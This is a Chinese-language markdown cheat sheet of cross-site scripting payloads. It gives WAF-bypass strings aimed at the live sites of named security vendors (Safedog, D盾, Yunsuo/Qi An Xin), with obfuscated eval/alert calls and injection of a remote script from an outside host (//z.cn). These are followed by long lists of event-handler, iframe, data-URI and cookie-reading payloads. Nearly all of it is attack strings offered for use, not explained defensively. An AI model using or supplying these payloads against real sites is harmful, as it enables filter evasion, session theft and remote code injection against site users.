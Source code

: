 **安全狗**
```
http://www.safedog.cn/index/privateSolutionIndex.html?tab=2<video/src/onerror=top[`al`%2B`ert`](1);>

http://www.safedog.cn/index/privateSolutionIndex.html?tab=2<video/src/onerror=appendChild(createElement("script")).src="//z.cn">
```

**D盾**
```
http://www.d99net.net/News.asp?id=126<video/src/onloadstart=top[`al`%2B`ert`](1);>

http://www.d99net.net/News.asp?id=126<video/src/onloadstart=top[a='al',b='ev',b%2ba](appendChild(createElement(`script`)).src=`//z.cn`);>
```

**云锁+奇安信waf**
```
http://www.yunsuo.com.cn/ht/dynamic/20190903/259.html?id=1<video/src/onloadstart=top[`al`%2B`ert`](1);>

http://www.yunsuo.com.cn/ht/dynamic/20190903/259.html?id=1<video/src/onloadstart=top[a='al',b='ev',b%2ba](appendChild(createElement(`script`)).src=`//z.cn`);>
```

**一些新奇的xss playload**
```
<INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');">
<BODY BACKGROUND="javascript:alert('XSS')">
<input onfocus=alert(1) autofocus>
<h1 onmousemove="alert(1)">title</h1>
<select onfocus=alert(1) autofocus>
<iframe src="vbscript:msgbox(1)"></iframe> 
<iframe src="javascript:alert(1)"></iframe>
<iframe src="vbscript:msgbox(1)"></iframe>
<iframe onload=alert(1)></iframe>
<iframe src="data:text/html,<script>alert(0)</script>"></iframe> 
<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></iframe> 
</iframe><iframe src="vbscript:msgbox(1)"></iframe>
</iframe><iframe src="data:text/html,<script>alert(0)</script>"></iframe>
<details open ontoggle=prompt(/xss/)>
<plaintext/onmouseover=prompt(1)>
javascript://comment％250aalert(1) 
<img src=x onerror=confirm(1)>
<video><source onerror=alert(1)>
<audio src=x onerror="alert(1)">
<body onload=alert(1)>
<body onscroll=alert(1);><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><input autofocus>
<textarea onfocus=alert(1) autofocus>
```

其它
```
</span><script>alert('hello，gaga!');</script><s>
<script>alert('hello，gaga!');</script>
>"'><img src="javascript.:alert('XSS')">
>"'><script>alert('XSS')</script>
<table background='javascript.:alert(([code])'></table>
<object type=text/html data='javascript.:alert(([code]);'></object>
"+alert('XSS')+"
'><script>alert(document.cookie)</script>
='><script>alert(document.cookie)</script>
<script>alert(document.cookie)</script>
<script>alert(vulnerable)</script>
<s&#99;ript>alert('XSS')</script>
```